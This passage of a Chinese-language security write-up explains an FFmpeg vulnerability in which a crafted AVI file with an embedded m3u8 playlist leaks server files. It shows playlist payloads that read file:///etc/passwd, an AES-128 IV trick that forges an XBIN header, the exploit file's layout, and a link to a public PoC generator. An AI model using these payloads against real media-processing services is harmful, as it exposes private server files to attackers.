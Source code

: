 但 FFmpeg 检查了 body 中的非法字符串，所以无法使用 data :对 XBIN 格式声明

```shell
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:1
#EXTINF:1.0,
data:<format-header>  
#EXTINF:1.0,
file:///etc/passwd  
#EXTINF:1.0,
data:<format-footer>  
#EXT-X-ENDLIST
```

但是m3u8支持AES128的CBC模式加密，可以在#EXT-X-KEY中进行设置，所以可以很简单加密m3u8的内容：

```shell
…
#EXTINF:1,
#EXT-X-KEY:METHOD=AES-128, URI=/dev/zero, IV=<VAL>
#EXT-X-BYTERANGE: 16
/dev/zero
…
= AES^-1 CONST(0x00…00) ⊕<VAL> = <FMT HEADER>
```

由于m3u8单次访问目标文件获取到的内容不完整，为了获得完整的文件内容，还需要控制#EXT-X-BYTERANGE设置偏移量，然后重复这一部分

最终，我们得到的文件应该是这样的：

```shell
[AVI header]
[GAB2 header]
[m3u8 header]
{loop}
#EXT-X-KEY:METHOD=AES-128, URI=/dev/zero, IV=<VAL>     #声明m3u8的AES加密，将XBIN部分加密
[XBIN header]     #被加密
目标文件
[XBIN footer]    #被加密
{loop}
[m3u8 footer]
[AVI footer]
```

利用[github上](https://github.com/neex/ffmpeg-avi-m3u-xbin "https://github.com/neex/ffmpeg-avi-m3u-xbin")的Python POC脚本生成含有SSRF攻击的avi格式视频。脚本使用方法：

![ffmpeg](imgs/5.png)
